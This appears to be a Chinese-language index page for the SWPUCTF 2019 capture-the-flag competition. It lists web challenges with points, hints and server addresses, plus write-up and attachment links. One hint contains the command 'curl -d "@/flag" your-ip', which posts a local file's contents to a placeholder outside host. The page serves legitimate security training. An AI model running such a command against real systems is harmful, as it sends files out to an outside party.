 ## 比赛信息

动态分数

<br/>

## Writeup

[swpuctf2019 p1KkHeap 详细题解](https://blog.csdn.net/seaaseesa/article/details/103450524)

<br/>

## 附件链接

链接：https://pan.baidu.com/s/1mIimpnH0ZttxXq5ZqEdFtQ 提取码：xing

链接：https://pan.xunlei.com/s/VMdu2GSD3BiixGjOirFfRpKXA1 提取码：i7f4

链接：https://ctf.lanzoui.com/b02c7rzod 密码:xing

<br/>

## WEB

### easy_web(317.35pt,42solved)

> hint1：不是xss || hint2：使用somd5解flag
> URL http://211.159.177.185:23456

<br/>

### python简单题(373.84pt,32solved)

> 快速获取flag: curl -d "@/flag" your-ip
> URL http://114.67.109.247:2333

<br/>

### easy_python(556.09pt,13solved)

> 不需要扫描器 || 描述：python 环境 3.5.2
> URL http://47.101.36.165:7777

<br/>


### demo_mvc(820.35pt,3solved)

> 无需扫描 hint:PDO::query
> URL http://182.92.220.157:11116

<br/>

### FFFFF(1000pt,0solved)
